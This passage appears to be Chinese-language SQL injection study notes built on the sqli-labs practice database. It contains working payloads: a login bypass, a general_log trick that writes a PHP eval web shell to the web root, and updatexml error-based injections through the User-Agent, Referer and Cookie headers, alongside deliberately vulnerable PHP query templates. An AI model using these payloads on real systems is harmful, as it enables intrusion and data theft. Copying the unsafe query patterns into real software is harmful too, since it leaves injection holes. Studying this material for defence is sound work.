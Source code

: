 ```select name,pass from tbAdmin where name='admin' or 1=1#' and pass='123456' ```
	在mysql高版本的配置文件中默认没有secure_file_priv这个选项，但是你用SQL语句来查看secure_file_priv发现，没配置这个选项就是NULL，也就是说无法导出文件。

	替代方法：
	set global general_log=on;set global general_log_file='C:/phpStudy/WWW/123.php';select '<?php eval($_POST[123]) ?>';
	php的 mysql_query 只支持单语句。所以这个利用点不大。

[sql注入--高权限，load_file读写文件](https://www.cnblogs.com/hackxf/p/8975501.html)

5.多语句查询注入

联合查询限制条件：必须由两条或两条以上的select语句组成，语句之间用关键字union分隔 ,union中的每个查询必须包含相同的列


延时注入和布尔注入共同点：都是一个字符一个字符爆出来的，耗费时间长，都没有显示位，都要ASCII码推算

报错注入：由于配置不当，错误信息被输出到前台，导致攻击者根据报错信息进行一系列操作



## 漏洞sql格式
	
	整形
	$sql="SELECT * FROM users WHERE id=$id LIMIT 0,1";
	字符型
	$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
	字符型 '）闭合
	$sql="SELECT * FROM users WHERE id=('$id') LIMIT 0,1";
	字符型 "）闭合
	$id = '"' . $id . '"';
	$sql="SELECT * FROM users WHERE id=($id) LIMIT 0,1";
	字符型 ')) 闭合
	$sql="SELECT * FROM users WHERE id=(('$id')) LIMIT 0,1";


还有一些是包头注入（Header Injection）,过滤了用户名密码没有过滤包头，比如

	$uagent = $_SERVER['HTTP_USER_AGENT'];

	$insert="INSERT INTO `security`.`uagents` (`uagent`, `ip_address`, `username`) VALUES ('$uagent', '$IP', $uname)";

	',1,updatexml(1,concat(0x5c,(select database()),0x5c),1))#

	INSERT INTO `security`.`uagents` (`uagent`, `ip_address`, `username`) VALUES ('',1,updatexml(1,concat(0x5c,(select database()),0x5c),1))#', 'XXX.XXX.178.167', 'admin')

	注意保证字段数与要插入的列数一致
	
常见的HTTP注入点产生位置为【Referer】、【X-Forwarded-For】、【Cookie】、【X-Real-IP】、【Accept-Language】、【Authorization】


	$insert="INSERT INTO `security`.`referers` (`referer`, `ip_address`) VALUES ('$uagent', '$IP')";

	',updatexml(1,concat(0x5c,(select database()),0x5c),1))#
 	 
	' union select updatexml(1,concat(0x5c,(select database()),0x5c),1)#

	$cookee = $_COOKIE['uname'];

	$sql="SELECT * FROM users WHERE username='$cookee' LIMIT 0,1"
```